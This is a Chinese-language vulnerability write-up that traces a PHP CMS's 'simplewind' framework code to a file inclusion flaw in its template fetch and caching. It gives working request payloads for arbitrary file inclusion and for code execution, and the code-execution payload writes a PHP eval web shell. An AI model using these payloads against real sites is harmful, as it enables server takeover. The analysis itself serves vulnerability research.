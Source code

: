 继续跟进`simplewind/Core/Library/Think/App.class.php`，发现调用了**APP::init()** 和 **APP::exec()**
![](https://img-blog.csdnimg.cn/20210707154042200.png)
查看init方法，发现了URL调度
![](https://img-blog.csdnimg.cn/20210707142423437.png)
在`simplewind/Core/Mode/Api/Dispatcher.class.php`，可以看到将a赋值给了`$varAction`
![](https://img-blog.csdnimg.cn/20210707150652975.png)
```php
    static private function getAction($var,$urlCase) {
        $action   = !empty($_POST[$var]) ?
            $_POST[$var] :
            (!empty($_GET[$var])?$_GET[$var]:C('DEFAULT_ACTION'));
        unset($_POST[$var],$_GET[$var]);
        return strip_tags($urlCase?strtolower($action):$action);
    }
```
然后调用了 getAction 这个静态方法，可以看到action的值就是用参数 a 传入的，也就是说通过 a 传入的是要被执行的方法
![](https://img-blog.csdnimg.cn/2021070715112650.png)
#### 任意文件包含
`?a=display&templateFile=README.md`
![](https://img-blog.csdnimg.cn/20210707141032533.png)
由于使用的是Portal应用，看到`application/Common/Controller/HomebaseController.class.php`中的display函数
![](https://img-blog.csdnimg.cn/20210707160617754.png)
然后 **parent::display** 返回到其父类的`simplewind/Core/Library/Think/Controller.class.php`文件中的display方法
![](https://img-blog.csdnimg.cn/20210707161140340.png)
跟进到`simplewind/Core/Library/Think/View.class.php`中的display方法
![](https://img-blog.csdnimg.cn/20210707162358829.png)
发现调用了fetch方法，在起始有一个`ob_start();`，然后进入到view_parase模块，最后通过`$content = ob_get_clean();`将content清空
![](https://img-blog.csdnimg.cn/20210707162617285.png)
这里 **Hook::listen** 函数就相当于是调用了一个提前注册好的类中的函数，函数默认是run函数，可以在`simplewind/Core/Mode/common.php`看到
![](https://img-blog.csdnimg.cn/20210707163026602.png)
那么到`simplewind/Core/Library/Behavior/ParseTemplateBehavior.class.php`中的run入口处，`$_content`为我们传入的文件名
>发现content的值是第一次发送的话，将会走else分支，如果不是第一次发送，将会走第一个分支，从判断条件也可得知，如果缓存中存在content的缓存，即走if分支，否则就走else分支

![](https://img-blog.csdnimg.cn/20210707164848193.png)
利用第一次发送的poc，进入到else分支中的fetch函数，发现进入到`simplewind/Core/Library/Think/Template.class.php`文件中的fetch函数，漏洞就在这里
![](https://img-blog.csdnimg.cn/20210707165021170.png)
看到loadTemplate方法，先读取目标文件内容，然后目标文件内容会使用 **Storage::put** 写入到缓存文件里
![](https://img-blog.csdnimg.cn/20210707173323236.png)
接着用 **Storage::load** 函数将缓存文件进行包含，发现传入的文件名并没有经过检查，因此可以包含任意文件

#### 任意代码执行
```php
?a=fetch&templateFile=public/index&prefix=''&content=<?php file_put_contents('2.php','<?php @eval($_POST[cmd]); ?>')?>
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('2.php','<?php @eval($_POST[cmd]); ?>')</php>
```
![](https://img-blog.csdnimg.cn/20210707184616869.png)
从`application/Common/Controller/HomebaseController.class.php`开始
![](https://img-blog.csdnimg.cn/20210707180656380.png)
然后通过`return parent::fetch`返回到其父类的的fetch()函数，后面都是一样的，直到
```php
$tmplContent =  $this->compiler($tmplContent);
```